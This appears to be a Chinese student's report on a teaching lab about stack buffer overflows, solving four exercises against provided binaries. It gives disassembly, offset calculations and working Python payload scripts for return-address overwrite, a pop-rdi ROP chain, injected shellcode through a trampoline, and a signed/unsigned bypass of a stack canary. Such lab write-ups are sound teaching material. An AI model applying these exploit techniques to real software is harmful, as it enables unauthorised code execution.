



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
Problem 1 要求我们利用栈缓冲区溢出（stack buffer overflow）的相关原理，在不被程序正常控制流校验察觉的前提下，覆盖返回地址，使程序跳转到指定函数（如 touch1）执行。然后我们通过反汇编可以发现：程序在函数中使用了一个固定大小的栈缓冲区（如 char buf[XX]），用户输入通过 gets / scanf("%s") 等不做边界检查的函数写入该缓冲区，而缓冲区之后依次是：保存的寄存器（如 %rbp）-> 返回地址（RIP）。因此，只要构造超过缓冲区大小的输入，即可覆盖返回地址，使函数 ret 时跳转到我们指定的位置。所以我们的实验目标即为：从汇编代码中精确读出并计算从缓冲区起始地址到返回地址的偏移量，并将返回地址覆盖为目标函数的入口地址。

##### 1. `func` 的栈帧结构分析

`func` 的反汇编如下：

```asm
0000000000401232 <func>:
  401232: f3 0f 1e fa           endbr64
  401236: 55                    push   %rbp
  401237: 48 89 e5              mov    %rsp,%rbp
  40123a: 48 83 ec 20           sub    $0x20,%rsp
```
这几条指令完成了标准的函数建栈操作：

建立新的栈帧 + 在栈上为局部变量分配 0x20 = 32 字节空间。

##### 2. 确定缓冲区（buf）的位置

我们继续向下分析：

```asm
  401246: 48 8d 45 f8           lea    -0x8(%rbp),%rax
  40124a: 48 89 d6              mov    %rdx,%rsi
  40124d: 48 89 c7              mov    %rax,%rdi
  401250: e8 5b fe ff ff        call   4010b0 <strcpy@plt>
```

其中的关键指令是：lea -0x8(%rbp), %rax

这条指令说明：strcpy 的目标地址（第一个参数 %rdi） 是 %rbp - 0x8 ；即栈上缓冲区 buf 的起始地址为：buf = [rbp - 0x8]。而 strcpy 会一直复制，直到遇到 \0 停止，期间并不会检查目标缓冲区大小。

##### 3. 返回地址覆盖偏移量计算

在 x86-64 下，栈帧布局大致如下（高地址在上）：
```
[rbp + 8]  ← 返回地址（saved RIP）
[rbp]  ← 保存的 rbp
[rbp - 8]  ← buf 起始位置
```

因此，从 buf 起始地址到返回地址的距离为：

覆盖 buf 到 rbp：8 字节

覆盖保存的 rbp：8 字节

总偏移量：offset = 8 + 8 = 16 字节

也就是说，只要输入 超过 16 字节，就可以开始覆盖返回地址。

##### 4. 绕过正常执行路径

在程序中，存在一个用于“成功跳转”的函数 func1：

```asm
0000000000401216 <func1>:
  401216: f3 0f 1e fa           endbr64
  40121a: 55                    push   %rbp
  40121b: 48 89 e5              mov    %rsp,%rbp
  40121e: bf 04 20 40 00        mov    $0x402004,%edi
  401223: e8 98 fe ff ff        call   4010c0 <puts@plt>
  401228: bf 00 00 00 00        mov    $0x0,%edi
  40122d: e8 ee fe ff ff        call   401120 <exit@plt>
```

其入口地址为：func1 = 0x401216

如果我们将 func 的返回地址覆盖为 0x401216，那么在 ret 指令执行时，程序将直接跳转到 func1，从而绕过原本的正常执行路径, 第一个problem也就大功告成啦！

- **解决方案**：
payload 的结构如下：
```
[padding] + [func1 地址]
```

其中：padding 用于填充至返回地址，共 16 字节;地址需按小端序写入;对应的 Python payload 构造代码如下：
```py
# answer1.py
import struct

payload  = b"A" * 16
payload += struct.pack("<Q", 0x401216)  # func1 地址，小端序 64-bit

with open("payload", "wb") as f:
    f.write(payload)
```
- **结果**：


### Problem 2:
- **分析**：
本题目标是通过栈溢出跳转目标函数，调用 `func2(int x)`，并使其参数 `x == 0x3f8`，从而进入成功分支输出成功信息后退出。

##### 1. 目标函数 `func2` 的参数检查逻辑

`func2` 的关键汇编如下：

```asm
0000000000401216 <func2>:
  401222: 89 7d fc              mov    %edi,-0x4(%rbp)
  401225: 81 7d fc f8 03 00 00  cmpl   $0x3f8,-0x4(%rbp)
  40122c: 74 1e                 je     40124c <func2+0x36>
```
说明：

func2 的第一个参数来自寄存器 %edi ，符合 x86-64 System V ABI 调用约定

若 %edi == 0x3f8，则跳转到成功分支（0x40124c）并printf成功信息，然后 exit(0)；否则打印失败信息并 exit(0)

因此，本题需要实现：
ret跳转到 func2（入口地址 0x401216）并在跳转前将 %rdi 设为 0x3f8。

##### 2. 漏洞函数 func：固定长度 memcpy 导致栈溢出

漏洞位于 func：
```asm
0000000000401290 <func>:
  401298: 48 83 ec 20           sub    $0x20,%rsp
  ...
  4012a4: 48 8d 45 f8           lea    -0x8(%rbp),%rax   ; dst = rbp-0x8
  4012a8: ba 38 00 00 00        mov    $0x38,%edx        ; len = 0x38
  4012ad: 48 89 ce              mov    %rcx,%rsi         ; src = input
  4012b0: 48 89 c7              mov    %rax,%rdi         ; rdi = dst
  4012b3: e8 38 fe ff ff        call   4010f0 <memcpy@plt>
  4012b9: c9                    leave
  4012ba: c3                    ret
```

关键点：

目标缓冲区位于 rbp-0x8, 但 memcpy 的拷贝长度被写死为 0x38 = 56 字节;
rbp-0x8 处仅有很小的空间（从布局看至少会覆盖保存的 rbp 和返回地址），因此 memcpy 会稳定地覆盖返回地址，造成可控的栈溢出!

##### 3. 计算覆盖返回地址所需偏移（offset）
栈帧常见布局（高地址在上）：
```
[rbp + 8]  返回地址 (saved RIP)
[rbp + 0]  保存的 rbp
[rbp - 8]  目标缓冲区起始地址（memcpy 的 dst）
```

因此，从缓冲区起始位置覆盖到返回地址所需字节数为：

offset = 8（到 saved rbp） + 8（saved rbp 大小） = 16 字节

##### 4. 设置 rdi

程序中提供了一个非常直接的 gadget 片段：
```asm
00000000004012bb <pop_rdi>:
  4012c7: 5f                    pop    %rdi
  4012c8: c3                    ret
```

注意：虽然 pop_rdi 这个符号对应的是一个带函数序言的片段，但我们只需要从 0x4012c7 这一条指令开始执行，它就是标准的：

pop rdi

ret


因此可以构造：
```
ret -> 0x4012c7(pop rdi; ret) -> 0x3f8 -> 0x401216(func2)
```
- **解决方案**：
Payload结构：
```
padding(16 bytes)
+ pop_rdi_ret(0x4012c7)
+ arg(0x3f8)
+ func2(0x401216)
```

Payload代码：
```py
# answer2.py
import struct

OFFSET = 16
POP_RDI_RET = 0x4012c7   # pop rdi; ret
ARG = 0x3f8              # func2 期望的参数
FUNC2 = 0x401216         # func2 入口地址

payload  = b"A" * OFFSET
payload += struct.pack("<Q", POP_RDI_RET)
payload += struct.pack("<Q", ARG)
payload += struct.pack("<Q", FUNC2)

with open("payload2", "wb") as f:
    f.write(payload)

print("[+] wrote payload2, len =", len(payload))
```

- **结果**：


### Problem 3: 
- **分析**：
本题仍然存在栈溢出点，但与 Problem 2 不同的是：程序**没有提供 `pop rdi; ret` 这类直接设置参数寄存器的 gadget**，因此更适合采用 **注入代码+ 程序提供的跳板 jmp_xs** 的方式来完成“设置参数 + 跳转到目标函数”。

本题目标函数为 `func1(int x)`，其对参数进行了检查：

```asm
0000000000401216 <func1>:
  401222: 89 7d bc              mov    %edi,-0x44(%rbp)
  401225: 83 7d bc 72           cmpl   $0x72,-0x44(%rbp)
  401229: 75 57                 jne    401282 <func1+0x6c>
  ...
  40127b: e8 30 fe ff ff        call   4010b0 <puts@plt>   ; success
  ...
  4012d5: e8 46 fe ff ff        call   401120 <exit@plt>
  ```
结论：只要让 rdi/edi == 0x72 并跳转到 func1(0x401216)，即可进入成功分支输出成功信息并退出。

##### 1. 漏洞函数 func：memcpy 固定长度导致栈溢出

漏洞位于 func：
```asm
0000000000401355 <func>:
  40135d: 48 83 ec 30           sub    $0x30,%rsp
  ...
  401373: 48 8d 45 e0           lea    -0x20(%rbp),%rax     ; dst = rbp-0x20
  401377: ba 40 00 00 00        mov    $0x40,%edx           ; len = 0x40
  40137c: 48 89 ce              mov    %rcx,%rsi            ; src = input
  40137f: 48 89 c7              mov    %rax,%rdi            ; rdi = dst
  401382: e8 69 fd ff ff        call   4010f0 <memcpy@plt>
  ...
  4013a6: c9                    leave
  4013a7: c3                    ret
```

关键点：

(1) 目标缓冲区起始地址：dst = rbp - 0x20

(2) 拷贝长度固定为：0x40 = 64 字节

(3) 由于拷贝长度大于局部缓冲区空间，memcpy 会覆盖保存的 rbp 与返回地址，造成稳定可控的栈溢出。

##### 2. 计算覆盖返回地址的偏移（offset）

栈帧布局（高地址在上）：
```
[rbp + 8]  返回地址 (saved RIP)
[rbp + 0]  保存的 rbp
[rbp - 0x20] 缓冲区起始地址（memcpy 的 dst）
```

因此，从缓冲区起点到返回地址需要覆盖：

0x20（到 rbp） + 0x8（保存的 rbp） = 0x28 字节 = 40 字节

即：offset = 0x28

##### 3. 关键辅助：程序提供的跳板 jmp_xs

程序中存在一个非常“为本题量身定制”的跳板函数 jmp_xs：
```asm
0000000000401334 <jmp_xs>:
  40133c: 48 8b 05 cd 21 00 00  mov    0x21cd(%rip),%rax  # saved_rsp
  401343: 48 89 45 f8           mov    %rax,-0x8(%rbp)
  401347: 48 83 45 f8 10        addq   $0x10,-0x8(%rbp)
  40134c: 48 8b 45 f8           mov    -0x8(%rbp),%rax
  401350: ff e0                 jmp    *%rax
```

而在 `func` 一开始，它会把当前 %rsp 保存到全局变量 saved_rsp：
```asm
401365: 48 89 e0                 mov    %rsp,%rax
401368: 48 89 05 a1 21 00 00     mov    %rax, saved_rsp
```

由于当时 `sub rsp,0x30` 已执行完，saved_rsp = rbp - 0x30。

因此 jmp_xs 跳转地址为：

saved_rsp + 0x10
= (rbp - 0x30) + 0x10
= rbp - 0x20


这恰好就是 memcpy 的目标缓冲区起始地址,也就是我们的 payload 开头位置！

结论：只要把返回地址覆盖为 jmp_xs(0x401334)，程序就会跳到我们写在栈缓冲区中的“注入代码”执行。

##### 4. 注入代码设计（设置 %rdi 并跳转到 func1）

我们需要在缓冲区开头放入一段很短的 x86-64 机器码，实现：

`mov edi, 0x72`

跳转到 func1(0x401216)

我在和AI交流后得到的一种简洁写法是用 `push imm32; ret` 完成跳转（地址 0x401216 可用 32-bit 立即数 push）：
```
mov edi, 0x72 ：bf 72 00 00 00

push 0x401216 ：68 16 12 40 00

ret ：c3
```
组合得到 11 字节 shellcode：
```
bf 72 00 00 00 68 16 12 40 00 c3
```
- **解决方案**：
##### Payload 结构
```
[注入代码(11B)] + [padding 若干] + [覆盖返回地址为 jmp_xs]
```

其中：

offset = 0x28（覆盖到返回地址）

jmp_xs = 0x401334

注入代码放在缓冲区起始处（rbp-0x20），jmp_xs 会精确跳转到这里执行。

Payload代码：
```py
# answer3.py
import struct

OFFSET_RET = 0x28
JMP_XS = 0x401334
FUNC1 = 0x401216
ARG = 0x72

# 注入代码：
# mov edi, 0x72
# push 0x401216
# ret
shellcode = b"\xbf" + struct.pack("<I", ARG) \
          + b"\x68" + struct.pack("<I", FUNC1) \
          + b"\xc3"

payload  = shellcode
payload += b"A" * (OFFSET_RET - len(shellcode))
payload += struct.pack("<Q", JMP_XS)

with open("payload3", "wb") as f:
    f.write(payload)

print("[+] wrote payload3, len =", len(payload))
```

- **结果**：


### Problem 4: 
- **分析**：Canary 保护机制是什么？它在本题里如何生效？

从 `problem4` 的反汇编可以明确看到程序开启了 **stack canary（栈保护）**。其典型模式是：

##### 1.  **函数入口**：
从 `%fs:0x28` 读取 canary（本地存储中的随机值），保存到栈上局部变量（通常是 `rbp-0x8`）

例如在 `caesar_decrypt` 开头：

```asm
121c: 64 48 8b 04 25 28 00 00 00   mov %fs:0x28,%rax
1225: 48 89 45 f8                    mov %rax,-0x8(%rbp)
```
func1 / func / main 也都存在同样的结构（如 1328、136c、142f 等位置）。

##### 2. 函数返回前：

将栈上保存的 canary 与 %fs:0x28 当前值进行比较；一旦不一致，调用 __stack_chk_fail 直接终止程序

例如在 caesar_decrypt 尾部：
```asm
1306: 48 8b 45 f8                 mov -0x8(%rbp),%rax
130a: 64 48 2b 04 25 28 00 00 00  sub %fs:0x28,%rax
1313: 74 05                       je  131a
1315: e8 b6 fd ff ff              call __stack_chk_fail@plt
```

结论：

若采用传统的“栈溢出覆盖返回地址”的方式，几乎必然会破坏 rbp-0x8 处的 canary，导致在 ret 前触发 __stack_chk_fail，程序直接崩溃，无法跳转至目标函数。

因此本题的核心不是“绕过 canary 去覆盖 RIP”，而是寻找不需要破坏栈布局的逻辑漏洞。

##### 3. 本题可利用的逻辑漏洞（绕开 canary 的思路）

关键逻辑在 func(int) 中（入口 0x135d），它首先把一个“哨兵值”写为 0xfffffffe（即有符号 -2）：
```asm
137b: c7 45 f0 fe ff ff ff    movl $0xfffffffe,-0x10(%rbp)   ; 
f0 = 0xfffffffe
```

随后做比较时使用的是 jae（无符号比较）：
```asm
13a7: 8b 45 e8                 mov -0x18(%rbp),%eax
13aa: 3b 45 f0                 cmp -0x10(%rbp),%eax
13ad: 73 11                    jae 13c0
```

jae 表示：把 eax 当作 unsigned，判断 eax >= 0xfffffffe 是否成立。

这意味着：当输入是 -1（32 位为 0xffffffff）时，作为 unsigned 它非常大，会 错误地通过检查。

后续逻辑中还会检查某些组合条件，满足时会调用 func1：
```asm
13f6: call 131c <func1>
```

因此本题的利用点是：通过符号/无符号混用导致的整数溢出，让程序走到成功路径，而不是破坏返回地址（从而也就不触发 canary）。
- **解决方案**：
本题的“payload”不是二进制溢出串，而是一组交互输入（两段字符串 + 一个整数），其中关键在于最后的整数输入选择 -1（触发 unsigned 解释为 0xffffffff 的绕过效果）。这样子无需写代码即可通过实验啦！
- **结果**：



## 思考与总结

这四道题做下来，我最大的感受是：漏洞利用是一个不断在读汇编—还原运行时栈状态—选择策略—验证自己的猜测之间来回反复的过程。

---

### Problem 1：

其实在做Attacklab之前我以为栈溢出就是“输长一点把返回地址盖掉”。但实际做的时候发现，真正决定成败还有很多问题：

- **缓冲区到底从哪里开始？**
- **返回地址离它到底有多远？**

看 `func` 里那句 `lea -0x8(%rbp), %rax` 的时候，我还是有很明确的画面的：`rbp-0x8` 就是缓冲区起点，`rbp` 上面是保存的 `rbp`，再上面才是返回地址，因为在homework里做过很多遍，偏移能算出来（而不是靠猜）的时候，漏洞利用就变得“可控”了。

---

### Problem 2：

Problem 2 的关键点其实不在溢出，而在**参数**。

`func2` 里直接 `cmpl $0x3f8, -0x4(%rbp)`，不满足就 `exit`，满足也 `exit`，这逼着我必须把调用约定理解清楚：第一个参数在 `rdi/edi`。

我觉得这题最巧的是，程序甚至直接送了一个 `pop rdi; ret`（在 `0x4012c7`），而针对这一漏洞的`ret -> gadget -> 参数 -> 目标函数` 结构一旦建立，后面很多题都变成同一个思路的不同变体。

---

### Problem 3：

Problem 3 一开始我也下意识想找 `pop rdi; ret`，结果发现没有。  
但它还是给了另一种抓住漏洞的工具：`saved_rsp` + `jmp_xs`。

我当时意识到一个很关键的点：  
`func` 里先把 `rsp` 存进全局变量，再由 `jmp_xs` 做 `saved_rsp + 0x10` 的间接跳转，这个跳转算出来刚好落在 `rbp-0x20` ——也就是我们输入缓冲区开头。

这一下思路就切换成了：
- `mov edi, 0x72`
- 跳到 `func1`

这题让我更确信：  
**利用漏洞关键是看汇编代码和二进制给了你什么特别的”工具”**

---

### Problem 4：

Problem 4 里 canary 的模式非常像考试题：入口 `mov %fs:0x28, %rax`，尾部对比，不一致就 `__stack_chk_fail`。  
这意味着：我们不能还想着像前面一样覆盖返回地址（不过这是我考试时候的思路。感觉自己期末考试的时候这道题做的很糟糕）

我觉得这题最有意思的反而是：它最后的突破点根本不是去“强行覆盖 canary”，而是走另一条路——利用一些老生常谈的逻辑错误。

比如 `func` 里那个比较，用的是 `jae`（无符号），但拿来比的值又像是带符号意义的哨兵值（`0xfffffffe` 这种）。这种“符号/无符号混用”造成的错误，其实我们在课上在作业里见过很多了，所以利用起来确实很得心应手。

所以这题给我的收获是非常具有启发性的一点：  
**防护机制往往只针对某一种攻击路径，但程序里只要还有别的漏洞（尤其是逻辑漏洞），我们根本不需要走那条被防护卡住的路。**

---

### 我最后总结出的做题方法（更像我自己的 checklist）

这几题做完，我现在遇到类似情形会按这个顺序想：

1. **输入怎么进来？**（fread / scanf / memcpy / strcpy 哪个在喂数据）
2. **数据写到哪里？长度受控吗？**（固定长度 memcpy 这种特别危险）
3. **栈帧布局能不能画出来？**（缓冲区起点、saved rbp、saved rip）
4. **目标到底是什么？**（跳过去就行？还是要参数？还是要字符串？）
5. **策略选择：**
   - 能 `ret2func` 就 `ret2func`
   - 需要参数就 ROP（先找 `pop rdi; ret`）
   - gadget 不够就看有没有跳板漏洞/全局保存/间接跳转
   - 有 canary 就先别想着改 RIP，优先找逻辑漏洞！

---

## 参考文献

[1] Randal E. Bryant, David R. O'Hallaron.
    深入理解计算机系统（第3版）.
    机械工业出版社, 2016.

